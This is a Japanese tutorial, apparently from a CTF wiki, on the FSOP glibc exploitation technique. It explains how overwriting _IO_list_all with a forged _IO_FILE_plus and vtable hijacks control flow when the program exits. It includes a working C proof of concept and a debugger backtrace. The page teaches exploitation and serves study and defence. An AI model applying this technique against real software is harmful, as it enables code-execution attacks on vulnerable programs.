

# FSOP

## 紹介
FSOP は File Stream Oriented Programming の略です。前述の FILE の紹介のとおり、プロセス内のすべての _IO_FILE 構造体は _chain フィールドによって相互に連結されてリンクリストを形成しており、このリストの先頭は _IO_list_all によって保持されています。

FSOP の中心的な考え方は、_IO_list_all の値をハイジャックしてリンクリストとその中の _IO_FILE エントリを偽造することです。ただし、単に偽造しただけではデータを作ったにすぎず、それを発動させる何らかの方法が必要です。FSOP が発動方法として選ぶのは _IO_flush_all_lockp の呼び出しです。この関数は _IO_list_all のリストにあるすべてのエントリのファイルストリームをフラッシュします。これは各 FILE に対して fflush を呼ぶのと同じで、_IO_FILE_plus.vtable 内の _IO_overflow が呼び出されることにも対応します。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```



そして _IO_flush_all_lockp は攻撃者が手動で呼び出す必要はなく、次のような場合にシステムによって呼び出されます。

1. libc が abort の処理を実行するとき

2. exit 関数を実行したとき

3. 実行フローが main 関数から return したとき


## 例

FSOP を利用するための条件を整理します。まず攻撃者は libc.so のベースアドレスを知る必要があります。_IO_list_all はグローバル変数として libc.so 内に格納されているため、libc のベースアドレスをリークしなければ _IO_list_all を書き換えられないからです。

次に、任意アドレス書き込みによって _IO_list_all の内容を、攻撃者が制御できるメモリを指すポインタに書き換える必要があります。

その次の問題は、制御可能なメモリにどのようなデータを配置するかです。狙いの関数を指す vtable ポインタを配置する必要があるのは間違いありません。しかし、構築した fake_FILE が正常に動作するようにするには、ほかにもいくつかのデータを配置する必要があります。
その根拠は、先ほど示した次のコードです。

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

つまり次の条件になります。

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base


ここでは、例を使ってこれを確かめます。まず、偽造した vtable と _IO_FILE_plus を格納するためのメモリを確保します。
チェックを回避するため、_IO_write_ptr、_IO_write_base、_mode などのデータフィールドのオフセットを事前に取得しておきます。こうすることで、偽造した領域に対応するデータを構築できます。

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

確保したメモリの前半 0x100 バイトを _IO_FILE、後半 0x100 バイトを vtable として使い、vtable 内では 0x41414141 というアドレスを偽の _IO_overflow ポインタとして使います。

その後、libc 内にあるグローバル変数 _IO_list_all を上書きし、偽造した _IO_FILE_plus を指すようにします。

exit 関数を呼び出すと、プログラムは _IO_flush_all_lockp を実行します。fflush を経て _IO_list_all の値が取得され、それが _IO_FILE_plus として取り出されて、その中の _IO_overflow が呼び出されます。

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
